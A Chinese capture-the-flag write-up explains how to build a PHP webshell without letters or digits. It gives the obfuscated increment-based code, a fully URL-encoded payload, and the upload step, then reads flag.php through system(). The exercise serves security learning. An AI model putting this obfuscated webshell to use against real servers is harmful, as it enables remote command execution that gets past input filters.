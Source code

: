 



> 这题考察的是构造无字母数字Webshell，有点晕，附文章先学习一波
>
> https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html
>
> https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html
>
> https://www.freebuf.com/articles/web/186298.html

> 在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`
> system()—执行shell命令也就是向dos发送一条指令
> cat命令可以用来查看文件内容
> <?php  $a=array(); echo $a;?> #Array
> <?php  $a=array(); $b=array(); echo $a.$b;?>  #ArrayArray
> <?php  $a=array(); $b="asd"; echo $a.$b;?>  #Arrayasd



```php
<?php
$_=[].[];
$__='';
$_=$_[''];
$_=++$_;$_=++$_;$_=++$_;$_=++$_;
$__.=$_; // E
$_=++$_;$_=++$_;
$__=$_.$__; // GE
$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;$_=++$_;
$_=++$_;$_=++$_;$_=++$_;
$__.=$_; // GET
var_dump(${'_'.$__}[_](${'_'.$__}[__])); // $_GET['_']($_GET['__']);

```

```
c=%24_%3d%5b%5d.%5b%5d%3b%24__%3d%27%27%3b%24_%3d%24_%5b%27%27%5d%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__%3d%24_.%24__%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24%7b%27_%27.%24__%7d%5b_%5d(%24%7b%27_%27.%24__%7d%5b__%5d)%3b
```

写入full_filename，成功上传webshell，命令执行`?_=system&__=cat%20../flag.php`

即`system(cat%20../flag.php)`





# challenge 9

**源码**
